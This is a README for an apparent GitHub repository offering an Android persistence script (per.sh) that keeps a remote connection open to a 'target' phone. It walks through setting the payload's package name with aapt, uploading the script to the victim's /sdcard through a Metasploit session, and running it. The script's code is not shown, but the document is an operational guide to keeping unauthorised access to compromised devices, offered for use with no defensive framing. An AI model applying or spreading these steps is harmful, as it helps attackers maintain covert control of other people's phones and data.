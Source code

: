 # Android bash Persistance

A bash persistance for get connection from the target in any time 

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)


## Installation

Instructions for how to install and set up the project.

```bash
# Clone the repository
git clone https://github.com/bad-boy2py/Andoird_Persistance.git

# Navigate to the project directory
cd Andoird_Persistance
```
## Usage
1. change 'PayloadPackgeName' in per.sh file with your payload package name
1. to get your payload package name use aapt install it by `sudo apt install aapt -y`
1. to extract package name by aapt use command:
2. `aapt dump badging YourApkPath | grep package:\ name`  change YourApkPath with path for your apk file
 
3. make per.sh excutable by :
`sudo chmod +x per.sh`
4. upload per.sh after make it excutable to target storage, for exmple in metasploit:
`upload per.sh /sdcard`
5. after upload file run it by : `sh per.sh`
